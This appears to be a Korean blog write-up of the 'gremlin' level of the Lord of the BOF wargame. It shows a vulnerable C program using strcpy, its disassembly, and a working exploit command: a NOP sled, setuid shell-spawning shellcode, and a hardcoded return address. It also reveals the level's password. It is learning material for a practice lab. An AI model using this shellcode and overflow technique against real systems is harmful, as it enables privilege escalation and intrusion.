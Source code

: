 ```yaml
---
title: "BOF - Lv.1 gate"
excerpt: "Lv.1 gate"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple bof 
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc <2) {
        printf("argc error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n",buffer);
}
```
```
(gdb)
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256] -> 입력받는 곳
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    %esp,8
0x8048482 <main+82>:    leave
0x8048483 <main+83>:    ret
```

## 2. Vulnerability

코드를 보면 strcpy함수를 사용함. strcpy함수는 입력받는 크기값이 정해져있지 않아서 버퍼 오버플로에 취약한 함수임.

## 3. Solution
입력은 ebp-256부터 받음. 대충 값을 줘서 값이 들어가있는 주소들 중 하나를 골라 ex) 0xbffff964 이 주소를 리턴주소로 하고 값으로는 쉘코드 41byte+nop 215byte+sfp 4byte + ret 4byte = 260byte를 값으로 주고 ret는 고른 주소로 해주면 됨.   
한번에 성공하고 싶으면 리턴주소까지 몇바이트의 값이 있는지 확인해보고 하면 더 수월함. 
```
./gremlin `python -c 'print "\x90"*64+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*155+"\x64\xf9\xff\xbf"'` 
``` 
my-pass : hello bof world